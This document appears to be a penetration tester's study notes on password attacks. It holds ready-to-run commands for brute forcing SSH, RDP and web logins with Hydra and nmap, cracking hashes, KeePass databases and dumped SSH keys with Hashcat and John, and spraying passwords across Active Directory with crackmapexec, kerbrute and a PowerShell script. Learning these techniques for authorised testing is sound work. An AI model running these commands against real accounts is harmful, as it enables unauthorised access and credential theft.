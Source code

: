 ## Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

## nmap

The `passwords.txt` argument can be ommitted, if it is then a default password database will be used. It will begin with checking if the password is the same as the username, which is a nice touch that's easily forgotten about otherwise.
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt <target IP>
```

## Hash Cracking

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.

## Active Directory Password Cracking

Back to directly targeting an authentication interface, now in the context of AD. For all of the following it is well worth checking the password policy with `net accounts` in order to be sure that we don't immediately get locked out of every account we hit. All of the following assume that we have obtained a plaintext password by some other means, but don't yet have a matching username.

### Spray-Passwords.ps1
Querying LDAP and ADSI with user creds. This will need to be run on the target machine, however a benefit of this is that it will enumerate which users to hit for us.
```powershell
.\Spray-Passwords.ps1 -Pass 'bigboi123!' -Admin
```
```powershell
.\Spray-Passwords.ps1 -File passwords.txt -Admin
```

### crackmapexec
Another approach to password spraying against a Windows machine is available to us courtesy of `crackmapexec`. To target SMB shares with a username list and a known/candidate password (nb. We should take care to check the domain password policy with `net accounts` before we start blasting):
```bash
crackmapexec smb 192.168.12.34 -u users.txt -p '123456' -d corp.com --continue-on-success
```

### kerbrute
This time our brute forcing is aimed at obtaining a Kerberos Ticket Granting Ticket (TGT):
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "password123"
```